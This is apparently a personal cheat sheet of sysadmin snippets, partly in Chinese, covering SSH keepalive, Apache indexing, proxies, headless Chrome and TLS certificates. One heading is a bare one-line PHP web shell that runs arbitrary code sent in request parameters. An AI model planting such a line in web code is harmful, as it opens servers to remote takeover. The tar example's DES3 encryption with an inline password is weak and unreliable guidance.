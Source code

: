 # fswatch
`go install github.com/codeskyblue/fswatch`

# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```

    Options Indexes FollowSymLinks
    IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```


# ($_=@$_GET[2]).@$_($_POST[1])


# ssh connection alive
## server
```

	TCPKeepAlive yes #表示TCP保持连接不断开
	ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。设置个300表示5分钟发送一次（注意，这里是服务端主动发起），然后等待客户端响应，成功，则保持连接。
	ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
```
### 注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
## client
```

	Host * #表示需要启用该规则的服务端（域名或ip）
		ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
		ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
## one time
`ssh -o ServerAliveInterval=30 user@host`


# secure tar
```

	tar czf - package | openssl des3 -salt -k youPassword -out tar.tar.gz
	#dd if=tar.tar.gz |openssl tar -d -k youPassword |tar zxf -
	openssl des3 -d -salt -k youPassword -in tar.tar.gz | tar xzf -
```


# bash proxy
```

		export https_proxy=10.0.0.52:8080
		export https_proxy=user:pass@192.158.8.8:8080
		export https_proxy=socks://10.0.0.52:1080
		export https_proxy=socks4://10.0.0.52:1080
		export https_proxy=socks5://10.0.0.52:1080
		export ftp_proxy=socks5://10.0.0.52:1080
		export no_proxy="*.aiezu.com,10.*.*.*,192.168.*.*,*.local,localhost,127.0.0.1"
```


# dig
`dig txt b.aliyuntest.com @8.8.8.8`

# shell beep
`echo -ne '\007'` or `echo -e "\a"` or `echo -n Ctrl+V Ctrl+G`

# gorpc
`protoc -I server/proto/ server/proto/geo.proto --go_out=plugins=grpc:server/proto`

# headless chrome
`chrome --headless --disable-gpu --print-to-pdf https://www.baidu.com`
`chrome --headless --disable-gpu --dump-dom https://www.baidu.com`
`chrome --headless --disable-gpu --screenshot --window-size=1280,1696 https://www.baidu.com`

# quick ssl
`go run $GOROOT/src/crypto/tls/generate_cert.go --host m.treevc.net`
